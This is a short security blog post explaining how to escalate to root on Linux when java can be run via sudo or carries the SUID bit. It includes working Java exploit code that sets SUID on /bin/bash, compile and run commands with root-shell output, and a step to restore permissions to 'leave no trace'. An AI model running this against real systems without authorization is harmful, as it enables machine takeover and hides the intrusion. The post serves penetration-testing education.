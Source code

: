 ```yaml
---
layout: single
title: How to Privesc with java sudo/SUID
excerpt: "Short post in which I explain how to use java with sudo or with the SUID bit to privilege escalate"
date: 2022-09-25
classes: wide
header:
  teaser: /assets/images/java_privesc/java_logo.png
  teaser_home_page: true
categories:
  - privesc
tags:
  - real life
  - java
  - sudo
  - SUID
---
```


![](/assets/images/java_privesc/java.png)

# Java Privesc


I'm writing this since I found this in a real-life scenario and I couldn't find any guide online on how to do privilege escalation with java when you have sudo or SUID.

So for this technique we need either sudo (with or without password) or the SUID bit set in the java binary. Then we can compile this malicious java code that will set the SUID bit to /bin/bash although if you want to execute another command just change the corresponding line. I suggest you compile the code in the victim's machine so you don't get any version mismatch error. The code is just.


```java
import java.io.*;
class privesc{
    public static void main(String args[]){
            try{
                String cmd = "chmod u+s /bin/bash";
                Runtime run = Runtime.getRuntime();
                Process pr = run.exec(cmd);
                try{
                        pr.waitFor();
                }
                catch(InterruptedException e){
                    System.out.println("error");
                }
        //      BufferedReader buf = new BufferedReader(new InputStreamReader(pr.getInputStream()));
        //      String line = "";
        //      while ((line=buf.readLine())!=null) {
        //              System.out.println(line);
        //      }
            }
            catch (IOException e) {
                    System.out.println("error");
        }
    }
}
```

To change the command that gets executed just change the `String cmd` variable. Also if you want to display STDOUT uncomment the commented lines. Now just compile it like this.

```shell
javac privesc.java
```

And a new file called `privesc.class` will appear just execute it with java and get the root shell.

```shell
[dasor@archlinux ~/tmp]$ sudo java privesc
[dasor@archlinux ~/tmp]$ ls -la /bin/bash
-rwsr-xr-x 1 root root 927K Jan  8  2022 /bin/bash
[dasor@archlinux ~/tmp]$ bash -p
bash-5.1# whoami
root
```
 Now if you want to reset bash permission to leave no trace use.

 ```shell
bash-5.1# chmod 755 /bin/bash
bash-5.1# ls -la /bin/bash
-rwxr-xr-x 1 root root 948624 Jan  8  2022 /bin/bash
 ```

And that is all enjoy your new shell with responsibility! and if you find this in a real-life scenario be a good white hat and report it.
